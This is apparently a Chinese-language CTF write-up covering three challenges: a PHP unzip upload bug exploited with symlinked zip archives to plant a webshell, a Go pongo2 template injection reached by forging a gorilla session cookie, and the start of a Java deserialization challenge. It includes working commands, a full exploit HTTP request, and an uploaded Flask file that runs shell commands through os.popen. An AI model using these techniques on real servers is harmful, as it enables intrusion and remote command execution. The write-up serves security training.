# Unzip

## #unzip+软连接getshell

一个文件上传的口子

有一个upload.php文件

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};

//only this!
```

需要传一个zip文件

unzip是一个Linux命令，用于解压缩由zip命令压缩的压缩包

https://www.cnblogs.com/cxhfuujust/p/8193310.html

然后我们看看这段代码

```php
exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
```

这里的话会将zip文件解压到/tmp下，这意味着我们无法正常的访问我们上传的压缩包，这时候该咋打呀？

后面发现unzip可以用软连接。**软连接就是可以将某个目录连接到另一个目录或文件下，类似于Windows中的快捷方式，那么我们以后对这个目录的任何操作，都会作用到另一个目录或者文件下。**

具体的命令

```bash
ln -s [源文件或目录] [目标文件或目录]
举个例子
ln -s /bin/less /usr/local/bin/less
在 /usr/local/bin/ 下创建一个符号链接 less，指向 /bin/less。
```

为什么unzip能用软连接呢？这得看zip压缩命令

https://linux.die.net/man/1/zip



如果在创建 ZIP 文件时使用了 `-y` 或 `--symlinks` 参数，`zip` 会将符号链接以符号链接的形式存储在压缩包中。

当使用 `unzip` 解压时，它会识别这些符号链接，并在目标系统上创建相应的符号链接，而不是将其解压为普通文件。

所以这里的做法就很明显了，我们先上创一个符号链接的压缩包创建一个软连接指向网站根目录`/var/www/html`，然后我们再上传一个带木马的zip文件，就可以在网站根目录访问到了

先创建软连接压缩包

```bash
root@VM-16-12-ubuntu:/tmp# mkdir test
root@VM-16-12-ubuntu:/tmp# cd test
root@VM-16-12-ubuntu:/tmp/test# ln -s /var/www/html link
root@VM-16-12-ubuntu:/tmp/test# zip --symlinks link.zip link
```

然后我们需要删除link并创建一个在link目录下的payload

```bash
root@VM-16-12-ubuntu:/tmp/test# mkdir link
root@VM-16-12-ubuntu:/tmp/test# cd link
root@VM-16-12-ubuntu:/tmp/test/link# echo '<?php phpinfo();?>' > test.php
root@VM-16-12-ubuntu:/tmp/test/link# cd ../
root@VM-16-12-ubuntu:/tmp/test# zip -r link1.zip ./*
  adding: link/ (stored 0%)
  adding: link/test.php (stored 0%)
  adding: link.zip (stored 0%)
```

然后将link.zip和link1.zip分别上传后访问test.php就能成功访问到了

后面换成一句话木马去打就行



# go_session

## 源码分析

main.go

```go
package main

import (
	"github.com/gin-gonic/gin"
	"main/route"
)

func main() {
	r := gin.Default()
	r.GET("/", route.Index)
	r.GET("/admin", route.Admin)
	r.GET("/flask", route.Flask)
	r.Run("0.0.0.0:80")
}
```

gin web框架，定义了三个路由`/`、`/admin`、`/flask`

然后看看定义路由的文件route.go，逐个分析一下

首先就是导入的依赖

```go
import (
	"github.com/flosch/pongo2/v6"
	"github.com/gin-gonic/gin"
	"github.com/gorilla/sessions"
	"html"
	"io"
	"net/http"
	"os"
)
```

可以看到这里还导入了Go的模板引擎pongo2以及Cookie Sessions库

然后对session进行了操作

```go
var store = sessions.NewCookieStore([]byte(os.Getenv("SESSION_KEY")))
```

通过从环境变量中获取SESSION_KEY的值去设置session的key，`NewCookieStore` 是 Gorilla Sessions 库里的一个 **构造函数**，用来创建一个基于 **Cookie 的会话存储**

```go
func Index(c *gin.Context) {
	session, err := store.Get(c.Request, "session-name")
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	if session.Values["name"] == nil {
		session.Values["name"] = "guest"
		err = session.Save(c.Request, c.Writer)
		if err != nil {
			http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
			return
		}
	}

	c.String(200, "Hello, guest")
}
```

获取请求中的键为session-name的cookie作为session对象，获取错误则返回500并返回，如果值中的name为空的话就设置为guest并保存，但是最后的话都会返回200以及`Hello, guest`到页面

```go
func Admin(c *gin.Context) {
	session, err := store.Get(c.Request, "session-name")
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	if session.Values["name"] != "admin" {
		http.Error(c.Writer, "N0", http.StatusInternalServerError)
		return
	}
	name := c.DefaultQuery("name", "ssti")
	xssWaf := html.EscapeString(name)
	tpl, err := pongo2.FromString("Hello " + xssWaf + "!")
	if err != nil {
		panic(err)
	}
	out, err := tpl.Execute(pongo2.Context{"c": c})
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	c.String(200, out)
}
```

要求session中的name需要为admin，否则报错返回

随后获取name参数，默认值为ssti，通过 `html.EscapeString` 转义name的输入避免xss漏洞，最后用pongo2渲染并输出，这里很明显能看到是拼接字符串的形式，说不定会存在ssti呢？

```go
func Flask(c *gin.Context) {
	session, err := store.Get(c.Request, "session-name")
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	if session.Values["name"] == nil {
		if err != nil {
			http.Error(c.Writer, "N0", http.StatusInternalServerError)
			return
		}
	}
	resp, err := http.Get("http://127.0.0.1:5000/" + c.DefaultQuery("name", "guest"))
	if err != nil {
		return
	}
	defer resp.Body.Close()
	body, _ := io.ReadAll(resp.Body)

	c.String(200, string(body))
}
```

将请求转发到本地Flask服务并返回响应体

上面的分析其实可以看出来，我们第一个要做的事情就是伪造cookie，但是这个go语言的cookie是怎么生成的呢？

## cookie的生成

在github.com/gorilla/securecookie库中有一个Encode函数

```go
func (s *SecureCookie) Encode(name string, value interface{}) (string, error) {
	if s.err != nil {
		return "", s.err
	}
	if s.hashKey == nil {
		s.err = errHashKeyNotSet
		return "", s.err
	}
	var err error
	var b []byte
	// 1. Serialize.
	if b, err = s.sz.Serialize(value); err != nil {
		return "", cookieError{cause: err, typ: usageError}
	}
	// 2. Encrypt (optional).
	if s.block != nil {
		if b, err = encrypt(s.block, b); err != nil {
			return "", cookieError{cause: err, typ: usageError}
		}
	}
	b = encode(b)
	// 3. Create MAC for "name|date|value". Extra pipe to be used later.
	b = []byte(fmt.Sprintf("%s|%d|%s|", name, s.timestamp(), b))
	mac := createMac(hmac.New(s.hashFunc, s.hashKey), b[:len(b)-1])
	// Append mac, remove name.
	b = append(b, mac...)[len(name)+1:]
	// 4. Encode to base64.
	b = encode(b)
	// 5. Check length.
	if s.maxLength != 0 && len(b) > s.maxLength {
		return "", errEncodedValueTooLong
	}
	// Done.
	return string(b), nil
}
```

注释给的很明显了，主要是五个步骤去生成cookie：

1. 序列化session数据
2. （可选）加密Encrypt
3. base64编码
4. 生成 HMAC 签名并附加签名
5. 再次base64编码

然后我们分开看一下

首先是序列化的过程，跟进一下Serialize接口

```go
type Serializer interface {
	Serialize(src interface{}) ([]byte, error)
	Deserialize(src []byte, dst interface{}) error
}
```

一个是把 Go 对象序列化为 `[]byte`，一个是把 `[]byte` 反序列化为 Go 对象，这里调用的是序列化方法

```go
func (e GobEncoder) Serialize(src interface{}) ([]byte, error) {
	buf := new(bytes.Buffer)
	enc := gob.NewEncoder(buf)
	if err := enc.Encode(src); err != nil {
		return nil, cookieError{cause: err, typ: usageError}
	}
	return buf.Bytes(), nil
}
```

`gob.NewEncoder` 返回一个 Gob 编码器，随后利用编码器将 `src` 序列化成 Gob 格式的字节并返回

第二个是加密，先是检查block 加密块是否为空，如果不为空说明用户提供了加密的key，所以调用encrypt进行加密

那么block 是怎么来的呢？其实就是当你调用 `sessions.NewCookieStore(keyPairs...)` 时，如果提供了第二个 key，SecureCookie 会用它生成 `block` 对象，用于加密，但是我们代码里面并没有提供第二个key，所以这里的话是没用到加密的，直接跳过了

第三个就是base64编码，没什么好说的

```go
// encode encodes a value using base64.
func encode(value []byte) []byte {
	encoded := make([]byte, base64.URLEncoding.EncodedLen(len(value)))
	base64.URLEncoding.Encode(encoded, value)
	return encoded
}
```

第四个是创建HMAC

```go
	// 3. Create MAC for "name|date|value". Extra pipe to be used later.
	b = []byte(fmt.Sprintf("%s|%d|%s|", name, s.timestamp(), b))
	mac := createMac(hmac.New(s.hashFunc, s.hashKey), b[:len(b)-1])
	// Append mac, remove name.
	b = append(b, mac...)[len(name)+1:]
```

先是分别提取出Cookie 的名称以及当前时间戳（秒级）和生成的序列化字节，用`|`拼接成字符串格式，然后通过createMac创建Mac签名，hashFunc通常是 SHA1 或 SHA256，hmac的New方法用于创建一个HMAC对象

最后把 MAC 拼接到数据末尾并移除开头的`name|`，到此b的内容就变成了

```go
"timestamp|value|mac"
```

第五步就是二次base64编码了

至此我们明白了cookie的生成步骤依次是

```go
session.Values -> Serialize得到序列化字节 -> Encrypt(可选加密) -> Base64 -> 拼接 name|timestamp|value → HMAC → 移除 name 添加HMAC签名 → Base64 → Cookie
```

所以其实解密的话倒过来就可以了，但是问题是里面的SESSION_KEY 是我们未知的，所以我们只能暂时认为他并不存在，那么其他的因素都是一样的，就可以本地起环境拿到cookie

把源码改一下，将session的name设置为admin并保存，这样更方便获取



然后我们运行main方法并访问`/`拿到cookie



在题目环境中访问admin并改cookie



这样session就伪造成功了，下一步就是看看能不能打pongo2的ssti

## pongo2如何SSTI

先去翻一下官方文档

 https://pkg.go.dev/github.com/flosch/pongo2#section-readme

发现pongo2 是一种类似于模板语言的 Django 语法。

然后我去翻了一下Django 的官方文档

 https://docs.djangoproject.com/en/dev/topics/templates/

随便传个`?name={{8*8}}`发现有回显64，那就确定是ssti了

## c *gin.Context的使用

`gin.Context` 是 Gin 框架定义的结构体，而`c *gin.Context` 表示它是一个指针，代表 **请求的上下文对象**，里面封装了请求和响应的所有信息。



可以看到这里有保存请求的所有信息，也能写出响应数据，跟进Request可以看到有很多方法能调用



结合上面的我们可以写出payload

```go
{{c.Request.UserAgent}}
{{c.Request.Referer}}
```

然后看看c.Query()方法

```go
func (c *Context) Query(key string) (value string) {
	value, _ = c.GetQuery(key)
	return
}
```

接收一个key，但是很遗憾这里不能用单双引号去包括字符串，看看能不能从其他函数找到思路

ClientIP()



本来想着伪造请求头看看能不能控制返回值的但是后面发现不行，那我们尝试把ip地址当成是参数传进去试一下



然后用include标签打任意文件读取，但是为什么不返回嘞？？？哦原来是html转义了`/`

好吧，可能方向错了，我们转向看flask路由，发现这里有一个坑点

```go
resp, err := http.Get("http://127.0.0.1:5000/" + c.DefaultQuery("name", "guest"))
```

这里的话直接拼接了name进去，所以我们如果直接传?name=111的话，实际上url就变成了`http://127.0.0.1:5000/111`，所以我们真正需要传参的话需要传`?name=%3fname=111`

这里的话如果err的话有报错信息，我们尝试传一个空值导致报错看看



我这里直接把这段回显放到一个html文件中打开看



有pin码，说不定有debug测试页面？但是这里的话是3.9版本，暂时还没有计算pin码的方法

```python
app = Flask(__name__)
 
@app.route('/')
def index():
    name = request.args['name']
    return name + " no ssti"
 
 
if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000, debug=True)
```

可以看到这里开启了debug模式，debug模式会带来自动重载，也就是**热部署**（修改了代码后，Flask 会自动重启应用）

**我们知道pongo2模板引擎存在注入点，可以执行go的代码，所以我们可以先上传文件覆盖server.py，再访问`/flask`路由，来执行命令**

## POC

可以用**SaveUploadedFile**去上传文件



```go
{{c.SaveUploadedFile(c.FormFile("file"),"/app/server.py")}}
```

但是之前讲过，有一个html转义会转义单双引号，需要做一个绕过，第一个参数可以用`c.ClientIP()`，第二个参数可以用`c.Query(c.ClientIP())`

```html
name={{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}&{{ip}}=/app/server.py
```

构造上传包，需要添加Content-Type 头

```http
对表单提交，浏览器会自动设置合适的 Content-Type 请求，同时 生成一个唯一的边界字符串，并在请求体中使用这个边界字符串将不的表单字段和文件进行分隔。如果表单中包含文件上传的功能，需要 使用 multipart/form-data 类型的请求体格式。
```

但是我这里用hackbar换成multipart/form-data发个post包后就自己添加了这个请求头，只需要把POST换成GET就行了

```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}&61.48.133.102=/app/server.py HTTP/1.1
Host: bcc324df-beda-46b1-a0e0-dbec185f543b.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://bcc324df-beda-46b1-a0e0-dbec185f543b.challenge.ctf.show
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA2FWd8UDzj0cCZc7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://bcc324df-beda-46b1-a0e0-dbec185f543b.challenge.ctf.show/admin?name=111
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8; session-name=MTc1ODA5MzA4MnxEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXzFSUaBbGBEsxTg77L_c8gMK1zVAt1vaRY5vmZgdMIURg==
Content-Length: 46


------WebKitFormBoundaryA2FWd8UDzj0cCZc7--
Content-Disposition: form-data; name="61.48.133.102"; filename="shell.py"
Content-Type: text/plain

from flask import *
import os
app = Flask(__name__)

@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
------WebKitFormBoundaryA2FWd8UDzj0cCZc7--
```

返回200后通过/flask?name=%3fname=env去执行命令



# deserbug

```java
题目提示：

1 . cn.hutool.json.JSONObject.put->com.app.Myexpect#getAnyexcept

2. jdk8u202
```

为了更好的调试，我直接下了一个8u202并配置上了

## 源码分析

反编译放到idea里看依赖发现CC的版本是3.2.2，官方修复中新添加了checkUnsafeSerialization功能对反序列化内容进行检测，而CC链常用到的InvokerTransformer就列入了黑名单中，所以应该是需要另外找个链子？

